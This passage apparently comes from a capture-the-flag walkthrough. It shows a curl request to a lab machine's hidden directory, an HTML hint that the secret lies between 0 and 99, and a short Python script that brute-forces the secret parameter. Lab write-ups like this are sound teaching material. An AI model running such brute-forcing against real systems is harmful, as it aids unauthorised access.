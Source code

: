 We see the hidden directory mentioned in the image! 

PS: It is also a good idea to download the image ... just in case, you know?

### Hidden Directory Exploration
![The hidden directory screenshot, asking for a secret number](https://i.imgur.com/oih7N23.png)

Info gathered:
- We have to enter a secret
- Source code mentiones something about the type of input and the size of input.
- The question is thus: How do we input?


### Finding the Secret
Trying the below gives us an expected response. Note how the parameter is accepted.
```
┌──(kali㉿kali)-[/tmp]
└─$ curl 10.10.0.237/{hidden_directory_name}/?secret=1
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 1</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```

We also see the hint printed out here. Time for some scripting!

I wrote the below code, which you can use to bruteforce the value of the secret parameter.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat script.py
import requests

url = "http://MACHINE_IP_HERE/{hidden_directory_name}/?secret="

for i in range(100):
    curr_url = url+str(i)
    response = requests.get(curr_url)
    if response.text.find("wrong") == -1:
        print(i)
        break
    print(f"Checking {i} rn")
```
